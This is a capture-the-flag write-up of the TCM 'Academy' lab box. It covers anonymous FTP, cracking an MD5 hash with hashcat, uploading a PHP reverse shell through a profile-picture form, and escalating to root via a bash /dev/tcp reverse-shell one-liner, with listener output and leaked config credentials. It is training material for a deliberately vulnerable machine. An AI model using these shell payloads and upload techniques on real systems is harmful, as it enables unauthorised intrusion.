

# Academy (192.168.64.4) CTF Write-Up

**Author:** Alan Garcia  
**Date:** 9/1/2023

## Table of Contents
- [Introduction](#introduction)
- [Challenge Overview](#challenge-overview)
- [Initial Reconnaissance](#initial-reconnaissance)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Flag Retrieval](#flag-retrieval)
- [Resources](#resources)

---

## Introduction
Academy was developed by TCM Academy

## Challenge Overview
This challenge has the easy dificulty

## Initial Reconnaissance
Detail the information-gathering phase:
- IP address: 192.168.64.4
- NMAP:
  - 21/tcp open  ftp     vsftpd 3.0.3
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt

  - 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
  - 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
- Service enumeration:
  - gobuster dir -u http://192.168.64.4 -w /usr/share/wordlists/rockyou.txt -t 40
  - Results:
    - /academy              (Status: 301) [Size: 314] [--> http://192.168.64.4/academy/]
   
  - Findings:
    - note.txt
    - └─$ cat note.txt
        Hello Heath !
        Grimmie has setup the test website for the new academy.
        I told him not to use the same password everywhere, he will change it ASAP.
        
        
        I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:
        
        INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
        ('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
        
        The StudentRegno number is what you use for login.
        
        
        Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
        We can always adapt it to our needs.
        
        -jdelta
Interesting Findings:
-10201321
-cd73502828457d15655bbd7a63fb0bc8

At this point, I saved the hash to hashes.txt and ran hash-cat on it:
-└─$ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt      
-cd73502828457d15655bbd7a63fb0bc8:student
student is the password for the /academy page

## Exploitation
Explain how you approached exploiting the challenge:

-using the web browser, i accessed /academy and logged in using the login info

I clicked around the website and saw a profile page where I could upload a picture,
perfect opportunity for a reverse shell.

I used https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
and saved it onto a file called shell.php
I used netcat to set up a listening port on my machine to let me know if i popped a shell
-└─$ nc -nvlp 1234

successfully uploaded file onto student profile pic

└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.64.2] from (UNKNOWN) [192.168.64.4] 35406
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 23:50:25 up  3:33,  1 user,  load average: 0.00, 0.58, 1.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                06:39   17:10m  0.36s  0.22s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

## Privilege Escalation
If applicable, describe how you escalated privileges:

saved linpeas onto my device to upload it to my target
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

ran linpeah.sh on the target and found some interesting information:
    grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash                                                                                               
    * * * * * /home/grimmie/backup.sh
    
    $ cat /var/www/html/academy/includes/config.php
    <?php
    $mysql_hostname = "localhost";
    $mysql_user = "grimmie";
    $mysql_password = "My_V3ryS3cur3_P4ss";

## Flag Retrieval
Detail how you located and captured the flag(s):
I set up a listening port on my machine and ran a single line shell on the target device:
  bash -i >& /dev/tcp/192.168.64.2/8081 0>&1

      └─# nc -nvlp 8081       
      listening on [any] 8081 ...
      connect to [192.168.64.2] from (UNKNOWN) [192.168.64.4] 57998
      bash: cannot set terminal process group (12851): Inappropriate ioctl for device
      bash: no job control in this shell
      root@academy:~# whoami
      whoami
      root
      
-Verified root access

      root@academy:~# cd root
      cd root
      bash: cd: root: No such file or directory
      root@academy:~# ls
      ls
      flag.txt

- Flag has been found
  
      root@academy:~# cat flag.txt
      cat flag.txt
      Congratz you rooted this box !
      Looks like this CMS isn't so secure...
      I hope you enjoyed it.
      If you had any issue please let us know in the course discord.
      
      Happy hacking !
      root@academy:~# 

## Resources
List any external sources, tools, or references you used:
- https://netcat.sourceforge.net/
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/OJ/gobuster

